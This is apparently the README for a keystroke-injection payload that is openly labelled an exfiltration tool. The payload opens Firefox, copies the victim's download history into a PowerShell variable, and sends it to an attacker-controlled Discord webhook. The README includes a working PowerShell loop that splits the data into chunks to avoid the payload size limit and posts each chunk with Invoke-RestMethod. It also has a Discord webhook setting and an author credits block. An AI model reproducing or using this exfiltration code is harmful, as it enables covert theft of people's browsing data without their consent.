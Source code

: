 # Exports all the links of the downloads

This script can be used to export all the links of the latest downloads made through Firefox.

**Category**: Exfiltration

## Description

This script can be used to export all the links of the latest downloads made through Firefox.

This script open the Firefox app, then go to downloads page and copy all, then open a PowerShell and put all the download link in a var named $DOWNLOADS, then use a Discord Webhook to exfiltrate it.

## Dependencies

* Firefox must be installed
* Internet connection

## Settings

- You must define your Discord webhook if you want to use this method for the exfiltration

  ```shell
  DISCORD_WEBHOOK='example'
  ```

- This delay depends on the number of links

  ```plaintext
  [48] DELAY 5000
  ```

- This algorithm is used to avoid the size limit imposed by Invoke-RestMethod on the payload length

  ```powershell
  $len = $DOWNLOADS.Length
      $MAX_LEN = 1900

      $ITERATIONS = [math]::Ceiling($len / $MAX_LEN)

      for ($i = 0; $i -lt $ITERATIONS; $i++) {
          $init = $i * $MAX_LEN
          $end = [math]::Min(($i + 1) * $MAX_LEN, $len)
          
          $sub = $DOWNLOADS.Substring($init, $end - $init)
          $Payload = @{content = $sub} | ConvertTo-Json

          Invoke-RestMethod -Uri $WebhookUrl -Method Post -Body $Payload -ContentType 'application/json'
      }
  ```
    
## Credits

<h2 align="center">Aleff</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>LinkedIn
    </td>
  </tr>
</table>
</div>
